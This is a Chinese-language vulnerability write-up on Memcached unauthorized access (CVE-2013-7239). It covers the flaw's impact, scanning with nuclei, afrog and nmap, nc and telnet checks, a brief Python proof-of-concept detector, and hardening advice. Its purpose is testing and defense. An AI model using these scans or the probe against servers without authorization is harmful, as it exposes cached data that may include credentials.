

# Memcached 未授权访问漏洞

| 说明     | 内容                         |
| -------- | ---------------------------- |
| 漏洞编号 | CVE-2013-7239                |
| 漏洞名称 | Memcached 未授权访问         |
| 漏洞评级 |                              |
| 影响范围 | Memcached全版本              |
| 漏洞描述 |                              |
| 修复方案 | <a href="#miao">见底部</a>； |

### 1.1、漏洞描述

Memcached 是一套常用的 key-value 分布式高速缓存系统

由于memcached安全设计缺陷，默认的 11211 端口不需要密码即可访问，导致攻击者可直接链接memcache服务的11211端口获取数据库中信息，这可造成严重的信息泄露。

### 1.2、漏洞影响

 除memcached中数据可被直接读取泄漏和恶意修改外，由于memcached中的数据像正常网站用户访问提交变量一样会被后端代码处理，当处理代码存在缺陷时会再次导致不同类型的安全问题。

 不同的是，在处理前端用户直接输入的数据时一般会接受更多的安全校验，而从memcached中读取的数据则更容易被开发者认为是可信的，或者是已经通过安全校验的，因此更容易导致安全问题。

由此可见，导致的二次安全漏洞类型一般由memcached数据使用的位置（XSS通常称之为sink）的不同而不同，如：

```
  （1）缓存数据未经过滤直接输出可导致XSS；

  （2）缓存数据未经过滤代入拼接的SQL注入查询语句可导致SQL注入；

  （3）缓存数据存储敏感信息（如：用户名、密码），可以通过读取操作直接泄漏；

  （4）缓存数据未经过滤直接通过system()、eval()等函数处理可导致命令执行；

  （5）缓存数据未经过滤直接在header()函数中输出，可导致CRLF漏洞（HTTP响应拆分）。

   … …
```


### 1.3、影响版本

<p style="color:red">Memcached全版本</p>

### 1.4、漏洞复现

#### 1、基础环境

Linux：https://www.runoob.com/memcached/memcached-install.html

Windows：https://www.runoob.com/memcached/window-install-memcached.html

---

启动测试环境：

```bash
sudo memcached -p 11211 -m 64m -vv -u root
```


#### 2、漏洞扫描

##### 2.1、nuclei扫描

```
.\nuclei.exe -u 10.9.75.7
```


##### 2.2、Afrog扫描

```
.\afrog.exe -t 10.9.75.7
```


##### 2.3、nmap扫描

```bash
nmap -p 11211 --script memcached-info 10.9.75.7
```


#### 3、漏洞验证

##### 3.1、telnet验证

telent连接成功后，使用命令`stats`返回统计信息例如 PID(进程号)、版本号、连接数等

> stats命令字解释及参数介绍
>
> https://www.runoob.com/memcached/memcached-stats.html



##### 3.2、nc验证

```bash
nc -vv 10.9.75.7 11211 
```


##### 3.3、POC验证

```python
#!/usr/bin/python3
 
 
import argparse
 
import pymemcache
 
 
# 命令行参数解析
 
parser = argparse.ArgumentParser(description='Check Memcached Unauthorized Access Vulnerability.')
 
parser.add_argument('-u', '--url', dest='url', metavar='IP:PORT', required=True, help='The IP address and port of the target Memcached server.')
 
 
# 解析命令行参数
 
args = parser.parse_args()
 
server, port = args.url.split(':')
 
 
# 检测Memcached是否存在未授权访问漏洞
 
def check_memcached_vuln():
 
    # 尝试建立连接
 
    client = pymemcache.client.base.Client((server, int(port)))
 
    # 尝试进行get操作，如果成功则代表存在未授权访问漏洞
 
    try:
 
        client.get('test')
 
        print(f'[+]{server}:{port} 存在安全漏洞!')
 
    except:
 
        print(f'[-]{server}:{port} 未检测到漏洞!')
 
 
if __name__ == '__main__':
 
    check_memcached_vuln()
```


### 1.5、修复建议

<p id="miao">~~~~~~~</p>

1、配置memcached监听本地回环地址127.0.0.1。

```
[root@local ~]# vim /etc/sysconfig/memcached

OPTIONS="-l 127.0.0.1" #设置本地为监听

[root@local ~]# /etc/init.d/memcached restart #重启服务
```

2、当memcached配置为监听内网IP或公网IP时，使用主机防火墙（iptalbes、firewalld等）和网络防火墙对memcached服务端口进行过滤。

3、配置访问控制策略。

4、最小化权限运行。

5、修改默认端口等。